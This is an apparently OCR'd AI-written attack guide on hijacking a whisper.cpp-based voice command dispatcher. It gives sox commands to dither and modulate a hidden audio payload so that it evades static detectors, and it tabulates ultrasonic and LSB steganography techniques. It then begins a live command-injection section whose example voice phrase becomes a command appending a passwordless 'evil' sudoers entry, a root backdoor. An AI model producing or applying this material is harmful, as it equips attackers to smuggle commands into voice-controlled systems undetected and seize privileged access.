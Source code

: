 * **Syscalls**

  * `sox` uses `fseek()` and `write()` to insert silence

#### 6.3.2 Multi-Band Interpolation & Dithering

```bash
# Add low-level pink noise for dithering
sox delayed.wav dithered.wav synth whitenoise volume 0.001 mix -v 1 delayed.wav
```

* **Underlying Linux**

  * Generates noise (`synth whitenoise`) → CPU-bound
  * Mixes streams in memory, writes new file via `write()`

#### 6.3.3 Adaptive Amplitude Modulation

```bash
# Modulate payload amplitude to follow ambient audio envelope
sox dithered.wav modulated.wav \
    compand 0.3,1 6:-70,-60,-20 -5 -90 0.2
```

* **Syscalls & primitives**

  * Convolution in user space → uses `malloc()`, `memcpy()`
  * Final write via `write()` → atomic file update

---

### 6.4 Attack Surface & Primitive Summary

| Technique                     | Tools / Binaries          | Linux Primitives                  | Vulnerability                  |
| ----------------------------- | ------------------------- | --------------------------------- | ------------------------------ |
| Ultrasonic Embedding          | `sox`, `aplay`, `arecord` | `open()`, `read()`, `write()`     | Mic captures >18 kHz           |
| LSB Steganography             | Python `wave`, `struct`   | `open()`, `read()`, `write()`     | Uninspected PCM LSB            |
| Random Delay & Dither         | `sox`, `bash`             | `fseek()`, `write()`, `execve()`  | Evasion of static detectors    |
| Adaptive Amplitude Modulation | `sox`                     | `malloc()`, `memcpy()`, `write()` | Blends payload under threshold |

---

Thought for 5 seconds


````markdown
## 7. Live Command Injection & Payload Chaining  

> This section demonstrates end-to-end exploitation: from uttered voice phrase to kernel syscall, including container escape and privilege chaining. Each example “peels away” abstractions in whisper.cpp, the dispatcher, systemd, and Kubernetes.

---

### 7.1 Real-World Voice Phrases → Payload  

| #  | Voice Phrase                                              | Transcribed Payload                                             | Dispatcher Exec                                          | Underlying Linux Action / Syscall                                    |
| ---| ---------------------------------------------------------- | --------------------------------------------------------------- | --------------------------------------------------------- | -------------------------------------------------------------------- |
| 1  | “Restart the web app and add user evil to sudoers”         | `systemctl restart nginx && echo "evil ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers` | `bash -c "systemctl restart nginx && echo \"evil ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers"` | <ul><li>`execve("/usr/bin/systemctl", ["systemctl","restart","nginx"],…)` → D-Bus call<br><li>`open("/etc/sudoers", O_WRONLY|O_APPEND)` + `write()` → file injection</ul> |
````